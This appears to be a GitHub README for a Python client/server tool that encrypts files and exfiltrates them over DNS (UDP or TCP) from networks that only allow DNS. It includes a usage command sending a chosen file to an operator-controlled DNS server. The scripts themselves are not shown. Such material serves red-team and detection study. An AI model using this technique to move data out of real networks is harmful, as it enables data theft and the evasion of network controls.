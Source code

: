 # DNS Exfiltration
* DNS can be used to extract data from protected networks that only permit DNS. These are client & server scripts that both encrypt & decrypt data transferred through DNS. The client encrypts the data before it's sent through the network. The server decrypts the data once it's received from the client. 

# Setup:
* Dependencies (client/server)
	```
	pip3 install -r requirements.txt
	```
* Server:
	```
	python3 server.py -v
	```
* Note that since DNS server is usually running on privileged port `53`, the `server.py` needs root permissions.
* Client:
	```
	python3 client.py -n <YOUR DNS SERVER> -f /path/to/file
	```
* A gif showing the process:
* ![dns exfiltration](assets/dns_exfiltration.gif)
* How it looks on WireShark (DNS over TCP):
* ![DNS over UDP](assets/DNSOverUDP.png)
* How it looks on WireShark (DNS over UDP):
* ![DNS over TCP](assets/DNSOverTCP.png)
# Requires python3.8+
* Since the server & client are using UDP protocol to transfer data, such a transfer process is not reliable, and therefore, files might not be transferred correctly when either the file being transferred is large or there is a traffic noise on the server. The delay between the byte blocks being sent can also affect the byte blocks order, which may corrupt the file being sent if one block of bytes gets received before the one that must be received first.
* For these reasons, DNS over TCP is supported and can be used to transfer files/data on a higher reliability.
* You can send binary files too.
# TODO
* ✓ Make the file sending process as reliable as possible (use TCP for this).
----
* Useful links:
* [DNS exfiltration of data](https://hinty.io/devforth/dns-exfiltration-of-data-step-by-step-simple-guide/)
